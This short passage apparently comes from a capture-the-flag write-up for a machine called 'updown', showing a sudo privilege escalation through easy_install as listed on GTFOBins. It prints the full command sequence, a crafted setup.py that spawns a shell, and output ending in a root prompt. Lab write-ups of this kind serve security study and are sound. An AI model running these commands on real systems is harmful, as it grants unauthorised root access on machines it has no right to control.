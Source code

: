 ```
    sys.exit(main())
```

- [GTFOBins](https://gtfobins.github.io/gtfobins/easy_install/)
```
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.0bbL0ArNMQ
Writing /tmp/tmp.0bbL0ArNMQ/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.0bbL0ArNMQ/egg-dist-tmp-gXK9MI
# whoami
root
# 
```